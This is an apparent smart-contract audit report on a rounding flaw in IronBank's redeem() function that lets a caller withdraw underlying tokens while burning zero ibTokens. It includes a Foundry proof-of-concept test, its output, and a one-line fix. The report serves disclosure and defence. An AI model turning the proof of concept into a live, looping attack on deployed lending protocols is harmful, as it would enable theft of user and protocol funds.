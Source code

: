 Norah

high

# Attacker Can Exploit IronBank's redeem() Function to Steal Funds from the Protocol

## Summary
The vulnerability stems from a clever manipulation of the redeem amount, where attackers can set the redeem amount in such a way that the resulting `ibTokenAmount` becomes zero due to rounding errors. However, the `redeem()` function does not include a check to prevent redemption when the `ibTokenAmount` is zero. 
This oversight allows attackers to exploit the vulnerability by calling IronBank's `redeem()` with a carefully crafted redeem amount, causing the function to erroneously redeem the entire underlyingAmount without burning any `ibToken`.

## Vulnerability Detail

Consider the exchangeRate to be 100x1e18

  -   Now Any user calls the redeem function with an underlyingAmount of 99.

  -   Amount to of ibToken to burn will be calculated ,as per following formula :
 
  https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/protocol/pool/IronBank.sol#L426 

  -   In our case ibTokenAmount will be evaluated as 99x1e18 / 100x1e18 resulting in **zero**.

  -   As there is no check like 
  
  ```solidity
                            if (ibTokenAmount == 0) { revert  ZeroRedeemNotAllowed(); }
   ```

  -   Users will get 99 amount of underlying **without burning any of their ibToken**.

Also, since there is no check whether the user has enough IBToken or not, anyone can call this function, no need to be even an ibToken holder.

Attackers can use a loop in contract to steal as many underlying tokens as per the gas limit.

## POC

Run this test in current repo, as it uses common.t.sol extensively.

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "./Common.t.sol";

contract RedeemTest is Test, Common {
    int256 internal constant market1Price = 1500e8;
    int256 internal constant market2Price = 1000e8;
    uint16 internal constant reserveFactor = 1000; // 10%
    uint16 internal constant collateralFactor = 8000; // 80%

    IronBank ib;
    MarketConfigurator configurator;
    CreditLimitManager creditLimitManager;
    FeedRegistry registry;
    PriceOracle oracle;

    ERC20Market market1;
    ERC20Market market2;
    IBToken ibToken1;
    IBToken ibToken2;

    address admin = address(64);
    address user1 = address(128);
    address user2 = address(256);

    function setUp() public {
        ib = createIronBank(admin);

        configurator = createMarketConfigurator(admin, ib);

        vm.prank(admin);
        ib.setMarketConfigurator(address(configurator));

        creditLimitManager = createCreditLimitManager(admin, ib);

        vm.prank(admin);
        ib.setCreditLimitManager(address(creditLimitManager));

        TripleSlopeRateModel irm = createDefaultIRM();

        (market1, ibToken1,) = createAndListERC20Market(18, admin, ib, configurator, irm, reserveFactor);
        (market2, ibToken2,) = createAndListERC20Market(18, admin, ib, configurator, irm, reserveFactor);

        registry = createRegistry();
        oracle = createPriceOracle(admin, address(registry));

        vm.prank(admin);
        ib.setPriceOracle(address(oracle));

        setPriceForMarket(oracle, registry, admin, address(market1), address(market1), Denominations.USD, market1Price);
        setPriceForMarket(oracle, registry, admin, address(market2), address(market2), Denominations.USD, market2Price);

        configureMarketAsCollateral(admin, configurator, address(market1), collateralFactor);
        configureMarketAsCollateral(admin, configurator, address(market2), collateralFactor);

        deal(address(market1), user1, 100e18);
        //deal(address(market1), user2, 100e18);
        deal(address(market2), user2, 100e18);
    }

    function testRedeemZeroIbToken() public {

        //Just adding liquidity to market1 , so that user 2 can borrow and eventually help in increasing exchangeRate via interest accrued
        vm.startPrank(admin);
        market1.approve(address(ib), 100e18);
        ib.supply(admin, admin, address(market1), 5e18);
        vm.stopPrank();
        
        //User2 borrowing asset in market
        vm.startPrank(user2);
        market2.approve(address(ib), 100e18);
        ib.supply(user2, user2, address(market2), 10e18);
        ib.borrow(user2, user2, address(market1), 3e18);
        vm.stopPrank();

        //After 1 day of interest accrued on supplied asset, excahnge rate is more than initial rate of 1.
        //As far exchange rate is more than 1, it can be exploited, more the better.
        
        fastForwardTime(8640); // 1 Day

        //Now the Attacker (User1) just simply calls redeem() with 1 as argument
        uint256 redeemAmount = 1;
        
        uint256 Underlying_balance_before_redeem = market1.balanceOf(user1);
        uint256 IBToken_balance_before_redeem = ibToken1.balanceOf(user1);

        vm.prank(user1);
        ib.redeem(user1, user1, address(market1), redeemAmount);

        uint256 Underlying_balance_after_redeem = market1.balanceOf(user1);
        uint256 IBToken_balance_after_redeem = ibToken1.balanceOf(user1);

        uint256 Underlying_Gain =Underlying_balance_after_redeem - Underlying_balance_before_redeem;
        uint256 IBToken_loss = IBToken_balance_after_redeem - IBToken_balance_before_redeem;

        console.log('Underlying_Gain : %d',Underlying_Gain);
        console.log('IBToken_loss : %d',IBToken_loss);

        assertEq(IBToken_loss, 0);
        assertEq(Underlying_Gain, 1);

    }

}

```
Output : 

```solidity
Logs:
  Underlying_Gain : 1
  IBToken_loss : 0
```


## Impact
Loss of user and protocol funds

## Code Snippet

  https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/protocol/pool/IronBank.sol#L399-L451

## Tool used
Foundry
Manual Review

## Recommendation
Implement following check in redeem() : 

  ```solidity
                   if (ibTokenAmount == 0) { revert  ZeroRedeemNotAllowed(); }
  ```